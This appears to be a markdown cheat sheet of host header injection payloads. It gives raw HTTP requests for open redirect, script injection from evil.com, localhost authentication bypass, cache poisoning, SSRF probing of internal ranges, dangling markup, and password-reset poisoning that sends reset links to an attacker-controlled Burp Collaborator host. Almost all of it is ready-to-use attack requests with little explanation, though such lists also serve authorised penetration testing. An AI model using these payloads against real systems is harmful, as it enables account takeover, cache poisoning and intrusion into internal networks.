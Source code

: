 # Host Header Atttack

### Host Poisoing = Open Redirect

```http
Host: evil.com

Responce:

Location: https://evil.com
```

### Host Poisoing = XSS

```http
Host: evil.com

Responce:

<script src=//evil.com/source.js>
```

### Host Header Authentication Bypass
```http
GET /admin HTTP/1.1
Host: localhost
```

```http
GET /admin HTTP/1.1
Host: 192.168.0.1/24 <-- Intruder
```

### Cache Poisoning via Ambiguous Request

```http
GET /admin HTTP/1.1
Host: victim.host.com
Host: SUBDOMAIN.burpcollaborator.net
```

### SSRF via Flawed Request Parsing

```http
GET https://victim.host.com HTTP/1.1
Host: SUBDOMAIN.burpcollaborator.net
```
If you received HTTP request, test:

```http
GET https://victim.host.com HTTP/1.1
Host: 192.168.0.1/24 <-- Intruder
```

### Dangling Markup

```http
GET /admin HTTP/1.1
Host: victim.host.com:'<a href="//SUBDOMAIN.burpcollaborator.net/?
```

```http
POST /member/getpassword HTTP/1.1
Host: victim.host.com:'<a href="//SUBDOMAIN.burpcollaborator.net/?
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/37.0.2062.94 Safari/537.3
Content-Type: application/x-www-form-urlencoded

email=alice@livemail.com
```

### Host Validation Bypass via connection state attack

Burp Suite > Repeater > + > Create Tab Group > 1 & 2

1:
```
GET / HTTP/1.1
Host: victim.host.com
```
2:
GET / HTTP/1.1
Host: 192.168.0.1/24 <-- Intruder
or
Host: localhost <-- Intruder
Host: SUBDOMAIN.burpcollaborator.net
Host: victim.host.com:'<a href="//SUBDOMAIN.burpcollaborator.net/?
...
Host: victim.host.com
Host: SUBDOMAIN.burpcollaborator.net

```
# P2 HIGH Account Takeover
```http
POST /member/getpassword HTTP/1.1
Host: SUBDOMAIN.burpcollaborator.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/37.0.2062.94 Safari/537.3
Content-Type: application/x-www-form-urlencoded

email=alice@livemail.com
```

https://application.security/free-application-security-training/owasp-top-10-host-header-injection

